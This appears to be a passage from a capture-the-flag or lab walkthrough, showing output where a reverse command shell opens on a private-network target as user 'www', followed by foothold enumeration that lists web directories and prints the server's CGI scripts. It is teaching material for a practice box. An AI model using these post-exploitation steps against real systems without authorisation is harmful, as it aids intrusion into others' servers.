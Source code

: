 ```bash
[*] Reading from sockets...
[*] Command: echo p4O9QwQUuHEa9no3;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "JxDzX3LT5EKRcyLN\r\n"
[*] Matching...
[*] A is input...
[*] Reading from socket B
[*] B: "p4O9QwQUuHEa9no3\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (192.168.34.142:4444 -> 192.168.34.150:40297) at 2020-10-29 04:18:47 -0400

whoami
www
/bin/sh -i
sh: can't access tty; job control turned off
$
```

### 4. Enumerate from foothold
This shell has extremely limited permissions, but regardless some enumeration is possible. Firstly checking out the web files:
```bash
$ ls
cgi-bin
data
data2
error
icons
$ ls data
index.html
pChart.tar.gz
pChart2.1.3
$ ls data2
phptax
$ cat cgi-bin/*
#!/usr/local/bin/perl
##
##  printenv -- demo CGI program which just prints its environment
##

print "Content-type: text/plain; charset=iso-8859-1\n\n";
foreach $var (sort(keys(%ENV))) {
    $val = $ENV{$var};
    $val =~ s|\n|\\n|g;
    $val =~ s|"|\\"|g;
    print "${var}=\"${val}\"\n";
}

#!/bin/sh

# disable filename globbing
set -f

echo "Content-type: text/plain; charset=iso-8859-1"
echo

echo CGI/1.0 test script report:
echo
```